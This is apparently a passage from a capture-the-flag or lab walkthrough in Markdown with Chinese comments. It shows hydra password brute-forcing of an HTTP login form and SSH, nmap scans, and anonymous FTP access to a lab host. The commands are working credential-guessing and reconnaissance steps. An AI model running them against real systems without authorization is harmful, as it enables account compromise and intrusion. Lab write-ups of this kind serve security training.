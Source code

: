### 2. hydra 
- HTTP Post
![image](https://hackmd.io/_uploads/S1t70tthyx.png)
```
┌──(chw㉿CHW)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.111.101 http-post-form "/admin/index.php?login=1:username=admin&password=^PASS^:F=Bad user/password! "
```
- SSH
```
┌──(chw㉿CHW)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.111.101
```
>[!Tip]
天荒地老
### 3. Nmap -p-
```
┌──(chw㉿CHW)-[~]
└─$ sudo nmap -sS -p-  192.168.111.101                                      
[sudo] password for chw: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-20 09:46 EDT
Nmap scan report for 192.168.111.101
Host is up (0.089s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
2112/tcp  open     kip

┌──(chw㉿CHW)-[~]
└─$ sudo nmap -sC -sV -p  2112  192.168.111.101
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-20 09:52 EDT
Nmap scan report for 192.168.111.101
Host is up (0.10s latency).

PORT     STATE SERVICE VERSION
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg

```
> Anonymous FTP login allowed
### 4. ftp
使用 `anonymous` 連線
```
┌──(chw㉿CHW)-[~]
└─$ ftp anonymous@192.168.111.101 2112
Connected to 192.168.111.101.
220 ProFTPD Server (Debian) [::ffff:192.168.111.101]
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.251.111 !
230-
230-The local time is: Thu Mar 20 13:55:30 2025
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||22207|)
150 Opening ASCII mode data connection for file list
```